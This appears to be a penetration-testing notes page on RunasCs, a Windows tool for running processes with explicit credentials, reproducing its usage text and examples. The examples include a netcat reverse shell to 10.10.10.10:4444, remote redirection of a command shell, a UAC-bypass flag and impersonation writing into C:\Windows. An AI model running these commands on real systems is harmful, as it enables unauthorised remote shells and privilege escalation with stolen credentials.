 (Thank you [@numonce](https://github.com/numonce))

### Overview:
---
Link: https://github.com/antonioCoco/RunasCs

Often times we have credentials for another user, but are unable to switch to or run commands as the user. _RunasCs_ is an utility to run specific processes with different permissions than the user's current logon provides using explicit credentials. This tool is an improved and open version of windows builtin _runas.exe_ that solves some limitations:

-   Allows explicit credentials
-   Works both if spawned from interactive process and from service process
-   Manage properly _DACL_ for _Window Stations_ and _Desktop_ for the creation of the new process
-   Uses more reliable create process functions like `CreateProcessAsUser()` and `CreateProcessWithTokenW()` if the calling process holds the required privileges (automatic detection)
-   Allows to specify the logon type, e.g. 8-NetworkCleartext logon (no _UAC_ limitations)
-   Allows to bypass UAC when an administrator password is known (flag --bypass-uac)
-   Allows redirecting _stdin_, _stdout_ and _stderr_ to a remote host
-   It's Open Source :)

### Usage
---

```
RunasCs v1.5 - @splinter_code

Usage:
    RunasCs.exe username password cmd [-d domain] [-f create_process_function] [-l logon_type] [-r host:port] [-t process_timeout] [--force-profile] [--bypass-uac] [--remote-impersonation]

Description:
    RunasCs is an utility to run specific processes under a different user account
    by specifying explicit credentials. In contrast to the default runas.exe command
    it supports different logon types and CreateProcess* functions to be used, depending
    on your current permissions. Furthermore it allows input/output redirection (even
    to remote hosts) and you can specify the password directly on the command line.

Positional arguments:
    username                username of the user
    password                password of the user
    cmd                     commandline for the process

Optional arguments:
    -d, --domain domain
                            domain of the user, if in a domain.
                            Default: ""
    -f, --function create_process_function
                            CreateProcess function to use. When not specified
                            RunasCs determines an appropriate CreateProcess
                            function automatically according to your privileges.
                            0 - CreateProcessAsUserW
                            1 - CreateProcessWithTokenW
                            2 - CreateProcessWithLogonW
    -l, --logon-type logon_type
                            the logon type for the token of the new process.
                            Default: "2" - Interactive
    -t, --timeout process_timeout
                            the waiting time (in ms) for the created process.
                            This will halt RunasCs until the spawned process
                            ends and sent the output back to the caller.
                            If you set 0 no output will be retrieved and a
                            background process will be created.
                            Default: "120000"
    -r, --remote host:port
                            redirect stdin, stdout and stderr to a remote host.
                            Using this option sets the process_timeout to 0.
    -p, --force-profile
                            force the creation of the user profile on the machine.
                            This will ensure the process will have the
                            environment variables correctly set.
                            WARNING: If non-existent, it creates the user profile
                            directory in the C:\Users folder.
    -b, --bypass-uac
                            try a UAC bypass to spawn a process without
                            token limitations (not filtered).
    -i, --remote-impersonation
                            spawn a new process and assign the token of the
                            logged on user to the main thread.

Examples:
    Run a command as a local user
        RunasCs.exe user1 password1 "cmd /c whoami /all"
    Run a command as a domain user and logon type as NetworkCleartext (8)
        RunasCs.exe user1 password1 "cmd /c whoami /all" -d domain -l 8
    Run a background process as a local user,
        RunasCs.exe user1 password1 "C:\tmp\nc.exe 10.10.10.10 4444 -e cmd.exe" -t 0
    Redirect stdin, stdout and stderr of the specified command to a remote host
        RunasCs.exe user1 password1 cmd.exe -r 10.10.10.10:4444
    Run a command simulating the /netonly flag of runas.exe
        RunasCs.exe user1 password1 "cmd /c whoami /all" -l 9
    Run a command as an Administrator bypassing UAC
        RunasCs.exe adm1 password1 "cmd /c whoami /priv" --bypass-uac
    Run a command as an Administrator through remote impersonation
        RunasCs.exe adm1 password1 "cmd /c echo admin > C:\Windows\admin" -l 8 --remote-impersonation
```